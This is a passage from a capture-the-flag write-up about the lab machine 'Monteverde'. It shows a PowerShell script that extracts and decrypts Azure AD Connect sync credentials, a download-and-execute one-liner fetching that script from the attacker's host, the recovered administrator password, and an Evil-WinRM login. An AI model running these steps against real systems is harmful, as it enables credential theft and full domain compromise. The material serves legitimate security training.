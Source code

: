     $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    
    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    

Now I can just use `python3 -m http.server 80` on my localhost, and run it on
Monteverde:

    
    
    *Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
    Domain: MEGABANK.LOCAL
    Username: administrator
    Password: d0m@in4dminyeah!
    

Interestingly, it gives the administrator account password. That must be the
replication account here, instead of the MSOL_ account I saw in the
documentation.

### Shell Over WinRM

With this password, I can get a WinRM shell as administrator:

    
    
    root@kali# evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
    
    Evil-WinRM shell v2.1
    
    Info: Establishing connection to remote endpoint
    